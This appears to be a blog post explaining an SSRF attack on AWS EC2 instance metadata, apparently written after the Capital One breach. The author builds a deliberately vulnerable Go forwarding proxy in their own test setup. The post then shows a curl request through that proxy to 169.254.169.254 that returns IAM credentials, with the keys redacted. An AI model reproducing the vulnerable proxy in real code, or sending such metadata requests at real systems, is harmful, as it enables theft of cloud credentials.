 However, it is very easy to simulate the same issue with one server forwarding requests (note: _forwarding_ is not the same as _redirecting_).

It’s so easy that, once you understand the attack, you start checking all the places where you forward requests in your own software.

Anyway, since I wanted to investigate the behaviour, I created a very crappy proxy in Golang. **Please, don’t use it in production** (or for anything important for that matter).

package main
// Crappy proxy. DON'T USE IT IN PRODUCTION, PLEASE, PLEASE PLEASE
import (
"log"
"net/http"
"net/http/httputil"
"net/url"
)func indexHandler(w http.ResponseWriter, r *http.Request) {
urlQueryParam := r.URL.Query().Get("url")
origin, \_ := url.Parse(urlQueryParam) director := func(req *http.Request) {
req.Host = origin.Host //See <https://git.io/fjNmS>
req.URL = origin
}
proxy := &httputil.ReverseProxy{Director: director}
proxy.ServeHTTP(w, r)
}func main() {
http.HandleFunc("/", indexHandler)
log.Fatal(http.ListenAndServe(":80", nil))
}Once I developed the code, I launched an Amazon Instance (_t2.nano_ will do), with the default AWS Linux Image, and associated a security group with ports 22 and 80 open (but only for my IP). I created an IAM role (assigning “s3 readonly” permissions, enough for a test) and assigned the role to the instance.

Once the instance was up and running, I followed the usual steps to connect the instance…

local $ eval `ssh-agent -s`
local $ ssh-add ~/key_i_just_created_with_the_instance.pem
local $ ssh ec2-user@<public ip of the instance>… followed by the typical steps for installing golang …

aws $ sudo yum update
aws $ sudo yum install -y golangand then I launched the forwarding proxy:

aws $ go build ./forward.go
aws $ sudo ./forward

> I had a crappy proxy listening on port 80, ready to forward any request that it receives in the _url_ parameter.The proxy is purposely dumb (it’s a simple example of SSRF). But being so simple, it’s obvious that it also forwards any requests to the metadata endpoint.

And for all intents and purposes, the request seems to be made from the actual instance. So I can get the credentials under which the EC2 instance is running:

local $ curl <aws-ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<name of the role>{
"Code" : "Success",
"LastUpdated" : "2019-08-18T19:40:03Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "<REDACTED>",
"SecretAccessKey" : "<REDACTED>",
"Token" : "<REDACTED>",
"Expiration" : "2019-08-19T02:10:29Z"
}I don’t know what was the specific compromise in Capital One’s case.
